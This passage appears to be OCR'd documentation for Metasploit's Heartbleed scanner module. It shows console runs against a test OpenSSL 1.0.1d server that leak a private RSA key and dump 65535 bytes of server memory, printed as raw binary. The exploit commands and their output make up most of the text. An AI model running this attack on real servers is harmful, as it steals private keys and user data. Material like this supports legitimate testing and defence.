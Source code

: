 ```
Nx2YT7eEcEIMOzOYF0zUH/gLo7UbZXGk/GlupqWP7kumwALz5Hu3gnx5+c69A0yL
FbawD4i1LZxrihOuuy3nt34hIlprjtW2WV49NiWnbwEzZo6ejm5NRg==
-----END RSA PRIVATE KEY-----

[*] 222.222.2.222:44330   - Private key stored in /root/.msf4/loot/20191012213218_default_222.222.2.222_openssl.heartble_250185.txt
[*] 222.222.2.222:44330   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### DUMP against s_server on Ubuntu 18.04 with OpenSSL 1.0.1d

```
msf auxiliary(scanner/ssl/openssl_heartbleed) > set action DUMP
action => DUMP
msf auxiliary(scanner/ssl/openssl_heartbleed) > run

[+] 222.222.2.222:44330   - Heartbeat response with leak, 65535 bytes
[+] 222.222.2.222:44330   - Heartbeat data stored in /root/.msf4/loot/20191012213447_default_222.222.2.222_openssl.heartble_500776.bin
[*] 222.222.2.222:44330   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssl/openssl_heartbleed) > cat /root/.msf4/loot/20191012213447_default_222.222.2.222_openssl.heartble_500776.bin
[*] exec: cat /root/.msf4/loot/20191012213447_default_222.222.2.222_openssl.heartble_500776.bin

���]�O���g�hE�_.[�MT��b��΋k�f��
�"�!98����5����
��	��32��ED��/�A���
                        �      �@�DA8u-�	b�,��Y'L��Մ�ձ3��-�bt����`�;ˋz���4���
�`���w��Vnvv�x���'�`���Y$�H                                                         |��k	E��ޞ=A�Gx�A��
                           a��f�D�9I��W�ϋ3/�V�s�D%����|������Z;��1FF���)�vC���ny7m��N1v/�&�Y�T@��e�3�D�ʗ�O��pc��,�y��q�G�g��z��`^�s�Mk*����Ou���E�ぜ���l]�%<,�@��S�зN�	"�����"���ct{uj��Ц�*N���a\{�5vRNW��-4S�^0b�e��7���=r���J>D��)V)C�m�y�-�F,�~VMD�E
�s��'����EVY�@�����H9*�[�]}�n1㺟N�'�p��0���x�j���a�k�F�W$�@]�lS`\���x�U�Wk�kƑ�o�%�Ё��B��-v��9��!)ᗙ�>�Ty�oXJ�
31��R��S0Q0U�]�v%C��#��*�B|c
K0U#0��]�v%C��#��*�B|c
K0U�0�0 *�H��
���^��#
       怅W7��G�w�n�*wFcR�~����l8�C*]��@��g+;=�|8�b߬3

1�ŏmA�,�s��l1v�d����m�i^�������y�}����5�2��'��s�M����G �U�2[������N�^p](������*\��3(ic�U��{�
           E�DMV~�,F�-�y�m�C)V)×D>J���o�Ȼ����U���#�S�`E� ܚ|���l��᨝-�
                                                                    �ok{�΄�C2��
                                                                               �g���N1A����B/w��!��)�U���B/w�����)�U�#�%��\ �rV���A#��_
                                                                                                                                       �m&r�]�J�
;���/_��
���rD���WMZt0���*ʟ����J�bB�U

|�ƭ���6���,s�d��7�s�8$,�I|��'�7ײ
                                �X��j�%����uj}��Y�a'�Ks��V��c.���vn:
B���c��q)GL�y0T�a&aZ�*q/#��������)�:յ�-����ހYi�R3�rb)��
�����5E����X?3w`>�"��p�퓱�Φ����q�/�}=9����'�PuJ�]�ȝ?l�]�cR$����-m���H,�D^��Ș{��5x��oS���-�ݴ;�v��]��I@��Á�K7H��
                                                                                                              i�,�ut�~�
                                                                                                                       ߃��u*n��w����.�fU���	R�X��y��^��|�0��udh����F������>��-��y�n�Š�윀�1��P�����W
```